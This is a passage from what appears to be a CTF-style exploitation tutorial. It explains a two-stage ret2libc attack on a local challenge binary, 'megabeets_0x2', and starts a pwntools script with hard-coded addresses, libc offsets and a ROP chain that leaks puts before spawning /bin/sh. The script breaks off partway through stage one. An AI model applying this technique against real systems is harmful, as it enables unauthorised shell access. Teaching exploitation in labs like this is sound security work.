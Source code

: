                     <h3>
                      Spawning a shell
                    </h3>
                    
                    <p>
                      The second stage of the exploit is pretty straightforward. We will again use 140 bytes of padding, then we&#8217;ll call <code>system</code> with the address of <code>"/bin/sh"</code> as a parameter and then return to <code>exit</code>.
                    </p>
                    
                    ```diff
+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+
```

                    
                    <p>
                      Remember that we returned to the entrypoint last time? That means that <code>scanf</code> is waiting for our input again. Now all we need to do is to chain these calls and send it to the program.
                    </p>
                    
                    <p>
                      Here&#8217;s the final script. As I mentioned earlier, you need to replace the offsets to match your version of <em>libc.</em>
                    </p>
                    
                    ```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)
```